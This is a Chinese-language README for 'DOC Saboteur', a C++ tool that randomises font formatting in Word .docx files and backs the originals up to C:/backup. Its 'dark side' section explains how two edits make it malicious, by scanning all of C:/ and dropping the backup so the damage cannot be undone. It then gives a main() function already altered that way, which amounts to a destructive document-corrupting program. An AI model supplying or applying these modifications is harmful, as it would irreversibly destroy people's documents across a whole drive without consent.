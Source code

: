 # DOC Saboteur

## 简介

DOC Saboteur 是一个有趣且实用的工具，专门设计用于随机化Word文档(`*.docx`)的格式属性，包括`字体大小`、`字体颜色`、`字体加粗`和`字体倾斜`。这个工具非常适合需要测试文档处理软件对不同格式容错能力的开发者，或者任何对Word文档格式随机化感兴趣的用户。

## 功能

- **格式随机化**：自动扫描程序根目录下的所有Word文档(`*.docx`)，并对每个文件的文本格式进行随机化处理，包括：
  - 字体大小
  - 字体颜色
  - 字体加粗
  - 字体倾斜
- **文件处理**：
  - **不支持中文文件名**：程序将自动检测中文文件名并重命名为非中文字符串，以保证处理过程无误。
  - **自动备份**：在进行任何修改前，自动将源文件备份到C盘的`backup`目录下，确保原数据安全。

## 使用指南

1. 将Word文档(`*.docx`)放入程序根目录下。
2. 运行DOC Saboteur程序。
3. 程序会自动扫描根目录下的所有Word文档，并进行格式随机化处理。
4. 处理完成后，可以在程序根目录下找到被修改的文档。
5. 原始文件将被安全备份到C盘的`backup`目录下。

## 注意事项

1. 确保C盘的`backup`目录存在且有足够的空间存储备份文件。
2. 程序目前不支持直接处理文件名为中文的文档，但会自动进行重命名处理。
3. 在使用本程序时，请确保你有足够的权限访问和修改指定目录下的文件。

## 黑暗面
你只需修改两行代码就能使本程序变成一个非常恶意的程序.
1. 修改main函数中的`std::vector<std::string> file_list = op.find_docx_files("./");`代码,`op.find_docx_files("./")`中的`"./"`表示程序根目录,你可以将其改为某个盘符,例如`C:/`,这样程序会遍历查找并破坏C盘下的所有的`*.docx`文件.
1. 将`if (op.copy_file(*iter, "C:/backup/" + *iter) == true)`注释掉,这段代码的作用是把即将被破坏的文档备份到`C:/backup/`中,如果注释掉则程序不会备份文档,那么你的文档的破坏将不可逆.

####  以下是一个示例:

```c++
int main() {
    std::cout << "DOC Saboteur - v0.1;\nPowered by RMSHE - 2024.03.15;\n" << std::endl;

    try {
        std::vector<std::string> file_list = op.find_docx_files("C:/");
        for (auto iter = file_list.begin(); iter != file_list.end(); ++iter) {
                std::filesystem::path _docxPath_ = op.renameIfChinese(*iter);

                // 转换为 std::string
                std::string docxPathString = _docxPath_.string(); // 或者 _docxPath_.u8string() 对于UTF-8编码的路径

                // 获取 const char* 类型
                const char *docxPath = docxPathString.c_str();
                const char *docXmlPath = "word/document.xml";

                std::cout << docxPath << std::endl;

                std::string xmlContent = op.readZipFile(docxPath, docXmlPath);

                // 随机化处理
                std::string modifiedXml = randomizeFontPropertiesEnhanced(xmlContent);
                op.writeZipFile(docxPath, docXmlPath, modifiedXml);

                std::cout << "文档处理完成:" + *iter << std::endl;
            }
    } catch (const std::exception &e) {
        std::cerr << "发生错误: " << e.what() << std::endl;

        system("pause");
        return 1;
    }

    system("pause");
    return 0;
}
```

